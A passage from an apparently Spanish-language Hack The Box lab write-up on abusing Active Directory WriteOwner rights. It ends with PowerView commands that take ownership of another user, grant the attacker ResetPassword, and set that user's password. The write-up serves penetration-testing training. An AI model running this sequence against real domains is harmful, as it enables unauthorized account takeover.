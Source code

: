 <figure><img src="../../../.gitbook/assets/3359_vmware_uxIm3QSXto.png" alt=""><figcaption></figcaption></figure>

### Abusing WriteOwner privileges (Changing a user password)

Revisando el archivo CSV, vemos que se trata de un reporte de BloodHound. Encontramos que el usuario que disponemos actualmente (tom@htb.local) dispone de permisos de _**WriteOwner**_ sobre el usuario (claire@htb.local).

Este permiso nos otorga la capacidad de cambiar la contraseña del usuario.

<figure><img src="../../../.gitbook/assets/3360_vmware_UE1kOM6PIn.png" alt=""><figcaption></figcaption></figure>

Volveremos al equipo con el usuario (tom@htb.local) y verificamos que en uno de los directorios nos encontramos con el _**PowerView.ps1**_, necesario para realizar la explotación del privilegio.

Procederemos a importar el PS1 en el equipo.

```powershell
. .\PowerView.ps1
```

<figure><img src="../../../.gitbook/assets/3362_vmware_dR9lWxLH9m.png" alt=""><figcaption></figcaption></figure>

Procederemos a convertirnos en propietarios del usuario (claire@htb.local), nos asignaremos permisos de "ResetPassword" y procederemos a modificar la contraseña del usuario.

{% code overflow="wrap" %}
```powershell
Set-DomainObjectOwner -identity claire -OwnerIdentity tom         

Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword                                                                                          

$cred = ConvertTo-SecureString "Password01!" -AsPlainText -Force  

Set-DomainUserPassword -Identity claire -AccountPassword $cred 
```
{% endcode %}
